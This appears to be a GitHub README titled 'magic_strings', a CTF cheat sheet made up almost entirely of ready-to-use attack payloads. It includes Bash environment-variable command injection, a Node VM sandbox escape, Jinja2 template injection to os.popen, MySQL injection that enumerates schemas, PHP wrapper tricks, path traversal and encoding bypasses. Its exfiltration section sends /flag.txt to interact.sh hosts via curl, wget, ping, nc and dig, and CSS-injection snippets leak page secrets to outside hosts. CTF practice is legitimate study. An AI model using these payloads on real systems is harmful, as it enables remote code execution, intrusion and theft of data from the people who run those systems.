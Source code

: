 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    {{config.__class__.__init__.__globals__['os'].environ}}

### MySQL 

MySQL >=5.6

    concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))

### PHP

    data://data:text/plain,<?php system("id")?>
    
    php://filter/convert.base64-encode/resource=index.php

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    wget --post-file /flag.txt xxxx.interct.sh
    wget -U `cat /flag.txt` xxxx.interct.sh
    wget `base64 -w0 /flag.txt`.xxxx.interct.sh
    ping here.xxx.interact.sh
    ping $(head -c 32 /flag|base64|tr -d "="|tr "+" "-"|tr "/" ".").xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh

### Path Traversal

    curl --path-as-is grafana.example.com/public/plugins/alertmanager/../../../../../../../../tmp/flag

### Bypass

#### utf8 normalization

      " 	%C0%A2 	%E0%80%A2 	%F0%80%80%A2 	Double quote 	
      ' 	%C0%A7 	%E0%80%A7 	%F0%80%80%A7 	Single quote 	
      < 	%C0%BC 	%E0%80%BC 	%F0%80%80%BC 	Less-than sign 	
      > 	%C0%BE 	%E0%80%BE 	%F0%80%80%BE 	Greater-than sign 	
      . 	%c0%2e %C0%AE 	%E0%80%AE 	%F0%80%80%AE 	Full stop 	
      / 	%c0%2f %C0%AF 	%E0%80%AF 	%F0%80%80%AF 	Solidus 	
      \ 	%c0%5c %C1%9C %c0%80%5c %E0%81%9C 	%F0%80%81%9C 	Reverse solidus

### XSS

#### CSS Injection

Abuse unicode range to exfiltrate charset

```css
@font-face {
    font-family:poc;
    src:url('//colab.com/A');
    unicode-range:U+0041;
}
@font-face {
    font-family:poc;
    src:url('//colab.com/B');
    unicode-range:U+0042;
}
#secret {
    font-family:poc;
}
...
```
Generator

```python
import string
colab = "xxx.interact.sh"
select = "h1"
for l in string.ascii_letters:
  print("@font-face{font-family:poc;src:url('//"+l+"."+colab+"/"+l+"');unicode-range:U+00"+ hex(ord(l))[2:]+";}",end="")
print(select+"{font-family:poc;}")
```

Attribute selectors

Contains: 

```css
a[href*="flag{"] {
  ...
}
```

Starts with:

```css
[class^="flag{A"] {
  background:url('//colab.com/A');
}
[class^="flag{B"] {
  background:url('//colab.com/B');
}
```


## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
- [IP Format Converter (Bypass)](https://h.43z.one/ipconverter/)

### De/Compile De/Obfuscate

- [JS Deobfuscator]( https://www.seosniffer.com/javascript-deobfuscator )
- [De Obfuscate JS]( https://lelinhtinh.github.io/de4js/ )
- [Compile Online]( https://rextester.com/ )
- [Decompile Java](http://www.javadecompilers.com/)

### Cheatsheets

- [Web CTF Cheatsheet]( https://github.com/sl4x0/Web-CTF-Cheatsheet )
- [XSS Cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
- [HackTricks]( https://book.hacktricks.xyz )
